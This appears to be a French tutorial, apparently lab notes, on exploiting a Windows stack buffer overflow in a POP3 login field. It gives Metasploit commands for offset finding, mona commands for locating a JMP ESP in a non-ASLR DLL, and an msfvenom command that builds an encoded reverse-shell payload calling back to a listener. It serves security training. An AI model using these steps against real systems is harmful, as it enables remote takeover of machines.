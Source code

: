 ## Attaque Buffer-Overflow

Pour déterminer si un système est vulnérable, il faut d'un champ ou l'on rentre une valeur soit disponible comme une page de login en web ou une section mot de passe lors de l'authentification sur un serveur avec le protocole POP3.

pour tester cela, on doit ouvrir l'applicatif dans un débuggeur et écrire une grande quantité de A pour voir si un dépassement de la mémoire est faisable.

Une fois que nous sommes sûr que l'on peut faire un dépassement de mémoire, on doit déterminer l'offset pour atteindre l'EIP.

- Création d'un pattern d'une longueur de 800
```bash
/opt/metasploit/tools/exploit/pattern_create.rb -l 800 # pour Arch
msf-pattern_create -l 3000 # pour Kali
```
- Envoie du pattern dans la section vulnérable
- Lire la valeur de EIP dans le débuggeur lorsque le programme à planté
- Calcul de l'offset
```bash
/opt/metasploit/tools/exploit/pattern_offset.rb -l 800 -q <value EIP> # pour Arch
msf-pattern_offset -l 3000 -q 39694438 # pour Kali
```
- Vérifier que l'offset est correcte en écrivant  `offset * "A" + 4 * "B"` dans la section. La valeur de l'EIP doit être `42424242`
- vérifier la place dispo pour la Payload, envoyant dans la section `offset * "A" + 4 * "B" + 80 * "C"`. Les "C" doivent être écrit dans la mémoire.
- chercher une DLL qui n'est pas sécurisé(Rebase, ASLR : False)
```
!mona modules
```
- vérifier la présence d'une instruction dans une DLL et liste les adresses de où se trouve l'instruction JMPESP (l'opcode de JMPESP est `\xff\xe4` ) 
```
!mona find -s "\xff\xe4" -m slmfc.dll
```
- Création d'un reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1  
LPORT=666 -f c -e x86/shikata_ga_nai -b "\x00\x0D\xFF"
```

 Paramètre | Valeur                    | Description            
 --------- | ------------------------- | ---------------------- 
 -p        | windows/shell_reverse_tcp | type de payload        
 LHOST     | 192.168.2.1               | adresse ip du listener 
 LPORT     | 666                       | port du listener       
 -f        | c                         | export au format C     
 -e        | x86/shikata_ga_nai        | encodeur               
 -b        | "\x00\x0D\xFF"            | liste des Badchar       

- Maintenant, créer l'exploit avec :
```
offset + Adresse de JMPESP(inversé) + nb * NoP + Shellcode
```

